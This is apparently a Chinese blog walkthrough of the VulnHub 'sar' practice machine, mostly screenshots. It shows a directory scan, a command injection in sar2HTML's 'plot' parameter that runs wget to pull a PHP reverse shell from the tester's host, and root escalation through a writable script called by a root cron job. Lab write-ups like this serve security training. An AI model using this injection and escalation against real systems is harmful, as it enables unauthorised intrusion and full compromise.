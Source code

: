 ```yaml
---
layout: post
title:  "sar"
description: walkthrough
category: vulnhub
---
```

# sar

只有80一个端口

![image-20200612221835140]({{ site.url }}/assets/sar.assets/image-20200612221835140.png)

```bash
sudo dirsearch -u http://192.168.1.116/ -e php,txt,apsx,asp,html -w /usr/share/wordlists/dirb/big.txt -r
```

![image-20200612221957180]({{ site.url }}/assets/sar.assets/image-20200612221957180.png)

![image-20200612222019820]({{ site.url }}/assets/sar.assets/image-20200612222019820.png)



![image-20200612222250185]({{ site.url }}/assets/sar.assets/image-20200612222250185.png)





![image-20200612222755430]({{ site.url }}/assets/sar.assets/image-20200612222755430.png)



![image-20200612222839388]({{ site.url }}/assets/sar.assets/image-20200612222839388.png)



![image-20200612223100589]({{ site.url }}/assets/sar.assets/image-20200612223100589.png)



![image-20200612223215533]({{ site.url }}/assets/sar.assets/image-20200612223215533.png)

确认wget

![image-20200612223600846]({{ site.url }}/assets/sar.assets/image-20200612223600846.png)

制作php rshell

![image-20200612223417226]({{ site.url }}/assets/sar.assets/image-20200612223417226.png)

假设本地服务，通过wget下载到目录

```bash
http://192.168.1.116/sar2HTML/index.php?plot=;wget http://192.168.1.108:8080/php-reverse-shell.php
```

![image-20200612223932578]({{ site.url }}/assets/sar.assets/image-20200612223932578.png)



![image-20200612224134448]({{ site.url }}/assets/sar.assets/image-20200612224134448.png)



使用ls也可以认证上传成功

![image-20200612224030807]({{ site.url }}/assets/sar.assets/image-20200612224030807.png)



![image-20200612224235766]({{ site.url }}/assets/sar.assets/image-20200612224235766.png)



![image-20200612225433054]({{ site.url }}/assets/sar.assets/image-20200612225433054.png)

计划任务中有一个脚本是以root执行的。`/var/www/html/finally.sh`

![image-20200612225349418]({{ site.url }}/assets/sar.assets/image-20200612225349418.png)



![image-20200612230156082]({{ site.url }}/assets/sar.assets/image-20200612230156082.png)

不可写，查看一下内容，发现关联的write.sh是可写的。

![image-20200612230312349]({{ site.url }}/assets/sar.assets/image-20200612230312349.png)

由于vi回显示不好，直接本地复制文本，目标上vi write.sh `dd`删除行，然后粘帖进去文本保存

![image-20200612233521205]({{ site.url }}/assets/sar.assets/image-20200612233521205.png)

任务5分钟执行一次。监听等待得到root

![image-20200612233623038]({{ site.url }}/assets/sar.assets/image-20200612233623038.png)

